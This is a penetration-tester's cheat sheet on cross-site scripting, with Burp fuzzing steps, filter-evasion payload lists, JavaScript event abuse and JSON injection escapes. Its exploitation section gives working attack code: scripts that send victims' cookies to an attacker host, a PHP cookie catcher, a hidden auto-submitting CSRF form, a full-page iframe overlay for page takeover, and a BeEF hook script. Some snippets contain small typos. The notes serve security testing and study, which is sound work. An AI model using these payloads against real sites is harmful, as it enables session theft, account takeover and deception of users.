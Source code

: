 ```yaml
---
title: XSS and Javascript
category: Web Application
order: 5
---
```


> **XSS Reflection Testing**

**Using Burp - Step 1:** 
1. Intruder-> Battering Ram (include user-agent, referer, cookie values)
2. Payoad -> Use a magic string: 9vqkz (any random string)
3. Options -> Search responses for payload strings -> magic string
4. Sort on p grep, if found change attack type to sniper.

**Using Burp - Step 2 Filter Test:**
1. Repeat above with sniper and the following payloads (simple list):
* <code> &lt;&gt;[]{}()$--'#&#34;&amp;;/ </code>
* <code> '';!--&#34;&lt;XSS&gt;=&amp;{()}</code>
* <code> &lt;x&gt;'&#34;()= </code>
* <code> ;[]{}'"() </code>
* <code> jAvaSCript:prompt(9vqkz) </code>
* <code> &lt;script&gt;alert(42);&lt;/script&gt; </code>

**Additional Payloads:**
* Fuzzdb /attack-payloads/xss
* JBroFuzz (built into ZAP)
* Burp (Pro provides expanded payloads)
* ZAP (JBroFUzz and some fuzzdb)
* XSSer (includes some that the others don't have)

**Additional XSS Test Strings**
{% highlight html %}
<script>alert(document.cookie);</script>
<script type="text/vbscript">alert(DOCUMENT.COOKIE)</script>
<script src=http://www.example.com/malicious-code.js></script>
%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e
\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e
>"><script>alert("XSS")</script>&
"><STYLE>@import"javascript:alert('XSS')";</STYLE>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')> 
<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>
<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">
{% endhighlight %}

**Tools:**
* XSSer 
* xssniper
* XSScrapy (xsssniper -u "http://sec542.com" --crawl --forms -http-proxy 127.0.0.1:8082)

**Resources:**
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

> **Javascript Events for XSS**

onload | change content after it loads
onunload | launch pop-under window to retain control of a zombie browser
onsubmit | change form values os the transaction is one of the attacker's choosing
onfocus | send http request to the attacker's web server to reveal which controls the user is selecting

> **XSS Exploitation**

**Exploitation Options**
* Redirect to competitor (or other equivantly bad site) 
	* <code> window.location.href = "http://www.sec542.org" ; </code>
* Have form submit to you:
	* <code> document.forms[1].action="http://www.sec542.org" </code>
* Add Competitor logo
* Negative fake information (or other content modification)
* Read cookies
* Fake Login Site 

**Basic Stealing Cookie:**
{% highlight html %}
<!-- Attacker -->
python -m SimpleHTTPServer 

<!-- Victim -->
<script>document.location='http://[AttackerIP]/cgi-bin/grab.cgi?'+docment.cookie;</script>
{% endhighlight %}

**POST:**
*Needs CSRF Vulnerability to work*
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

**XSS Cookie Catcher**
{% highlight php %}

#Attacker
<?php
$cookies = $_SERVER['REQUEST_URI'];
$output = "Received=".$cookies."\n";
$fh = fopen("/tmp/cookiedump", "a+");
$contents = fwrite($fh, $output);
fclose($fh);
echo "FOO!";
?>

#Victim
http://www.sec542.org/PhpMyAdmin/index.php?lang=<script>var lo=document.location;document.location='//[AttackerIP]/cookiecatcher.php?'%2bdocument.cookie;var la = new Array();la = lo.toString().split('?');document.location=la[0];</script>
"
{% endhighlight %}

**Take Over a Page**
{% highlight html %}
<style type="text/css"> <! -- .style11 {position:fixed; top:0px; left:0px; bottom:0px; right:opx; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;} //-->
</style>

<iframe class="style11" src="http://127.127.127.127/www.sans.org/account/" frameborder="0" scrolling="no" />
{% endhighlight %}

**BEEF**
{% highlight html %}
<script src=http://beefserver:3000/hook.js></script>
<!-- Most important is the browser exploitation - Metasploit attack payloads -->
{% endhighlight %}


>**XML HTTP Request**

{% highlight javascript %}
//Create the oject
xmlhttp = new XMLHttpRequest();
//Sets which function should be called when the ready state changes (AJAXProcess is a custom function)
xmlhttp.onreadystatechange = function () { if (xhr.readyState ==4 && xhr.status ==200) { document.getElementByID("answer").innerHTML = xhr.responseText;}}
//set up the request
xmlhttp.open("GET", "http://www.sec542.org/index.php");
//Send the request
xmlhttp.send();
//The property that contains the current ready state
xmlhttp.readyState
//THe property that contains the contents of any response from the server
xmlhttp.responseText
{% endhighlight %}

>**Exploiting JSON**

Look for:
1. Too much data provided from server and being filtered on the client
	* Use burp/zap to look at JSON data sent for extra data or error messages
2. Error messages provided from server but filtered on the client
	* Use burp/zap to look at JSON data sent for extra data or error messages
3. Injection (JSON to the server, or JSON in the response, eval)
	* Intercept the JSON and insert attack strings (XSS, SQL), be careful with XSS because it is in a JSON object that is going to be parsed and break out of it appropriately.

>**XSS JSON**

If data is reflected from input into JSON Object (9vqkz is test string):
{% highlight javascript %}
{"query": {"toolIDRequested": "9vqkz", "penTestTools": []}}

Example escape using concatinate:
Prefix: 1"+
Paylod: eval(alert(1))
Suffix:+1

prefix: 1"%2b
Payload: eval(alert(1))
Suffix: %2b"1

prefix: 4"}}); 
payload: alert(1);
suffix:   //
{% endhighlight %}

> **Useful Resources**

* [XSS, SQL, LDAP, XPATH, XML Injection Test Strings](https://www.owasp.org/index.php/OWASP_Testing_Guide_Appendix_C:_Fuzz_Vectors) 
* [XSS Examples](http://www.xssed.com/)
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [XSS Examples](http://www.xssed.com/)

> **Useful Tools**
* XSSer 
* xssniper
* XSScrapy (xsssniper -u "http://sec542.com" --crawl --forms -http-proxy 127.0.0.1:8082)


